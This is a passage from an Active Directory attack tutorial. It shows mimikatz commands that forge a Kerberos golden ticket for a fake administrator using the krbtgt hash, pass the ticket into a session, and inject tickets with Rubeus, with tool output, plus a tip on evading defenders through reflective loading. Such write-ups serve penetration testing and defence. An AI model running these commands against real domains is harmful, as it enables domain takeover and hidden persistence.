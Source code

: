 

**Generate Ticket**

```powershell
mimikatz.exe 
kerberos::golden /domain:m0chanAD.local /sid:<domain-sid> /krbtgt:<krbtgt> /id:500 /user:FakeAdmin /ticket persistance4life.kirbi
```



**PTT**

As you can see in the above examples I have applied the `/ptt` flag which will automatically inject the ticket into my current session but we can choose to output it to a file with the `/ticket` flag which will output a `ticket.kirbi` file by default unless directly specified.



We can then use this `kirbi` ticket for a certain level of persistence and/or inject them with Rubeus which Iw ill display below.

```
mimikatz.exe
kerberos::ptt persistance4life.kirbi
```



#### [](#header-4)Injecting Ticket with Rubeus



> Rubeus is effectively a Kerberos attack tool which we will cover a lot in this article that is developed in C#/.NET meaning it is a lot harder for defenders to detect it it's reflectively loaded using something like Cobalt's `execute-assembly` or `SILENTTRINITY` You can also reflectively load it from PowerShell but I will be covering `.NET` in greater detail in a future article. 
>
> https://github.com/GhostPack/Rubeus



***Disclaimer : This is an exact copy of this section under Silver Tickets***



As we have discussed Rubeus loads in this article already under `Kerberoasting` and `AS REP` I will jump straight to the chase. 



We can use Rubeus to inject Silver Tickets into our session by 2 methods, `.kirbi` file or a Base64 of said `.kirbi` file which I find very useful.



Inject `.kirbi` from Disk

```powershell
PS C:\Users\m0chan> .\Rubeus.exe ptt /ticket:C:\Temp\silver.kirbi

(_____ \      | |
 _____) )_   _| |__  _____ _   _  ___
|  __  /| | | |  _ \| ___ | | | |/___)
| |  \ \| |_| | |_) ) ____| |_| |___ |
|_|   |_|____/|____/|_____)____/(___/

v1.3.3


[*] Action: Import Ticket
[+] Ticket successfully imported!

PS C:\Users\m0chan> .\Rubeus.exe klist
```
